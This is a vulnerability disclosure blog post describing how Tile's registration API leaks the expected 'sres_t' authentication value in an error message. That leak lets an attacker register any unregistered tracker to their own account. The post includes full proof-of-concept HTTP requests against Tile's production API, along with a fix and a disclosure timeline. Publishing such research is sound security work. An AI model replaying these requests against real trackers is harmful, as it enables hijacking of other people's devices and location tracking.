 ```yaml
---
title: 'Tile - Unauthorized Registration of a Genuine Tracker'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to register any unregistered Tile tracker to their account. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to register any unregistered Tile tracker to their account.

# Vulnerability

It is possible to register an unregistered Tile tracker to an account without communicating with the tracker.

The endpoint `https://production.tile-api.com/api/v1/tiles/:tileUUID` excepts a valid auth triplet for the device.
An auth triplet consists of the three values `rand_t`, `rand_a`, and `sres_t`.
A valid auth triplet can only be obtained by communicating with a Tile tracker.
However, if the value `sres_t` is incorrect, the endpoint responds with the expected value.
This allows an attacker to bypass this check and add any Tile that is not yet associated with any account without actually communicating with the device.

For the attacker to exploit this vulnerability, they must have knowledge about the Tile UUID of a Tile tracker that is not registered to an account.

# Proof-of-Concept

Before registering a tracker to their account, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:
```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

Next, they can register a Tile tracker with the following request:

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]


--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

CCCCCC==
--BOUNDARY--
```
_In the request, every instance of `:tileUUID` must be replaced with the Tile UUID of a tracker that is not registered to an account._

In the request above, the auth triplet is incorrect.
The server correctly validates the auth triplet and denies the request.
This should ensure that only a user with physical proximity to the tracker is actually able to register the tracker.
However, the response contains the expected `sres_t` value.

```
Unable to authenticate tile No match sres_t value: calcSresT=1VALID==, sresT=CCCCCC==, randA=AAAAAAAAAAAAAAAAAAAAAA==, randT=BBBBBBBBBBBBBBAAAAAAAA==, tile_uuid=:tileUUID, client_uuid=[...]
```

Using the expected value, it is possible to register the tracker to the attacker's account without ever communicating to the tracker and getting a valid auth triplet.

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]

--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

1VALID==
--BOUNDARY--
```

# Fix

It is recommended to not leak the `sres_t` value in the error response.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
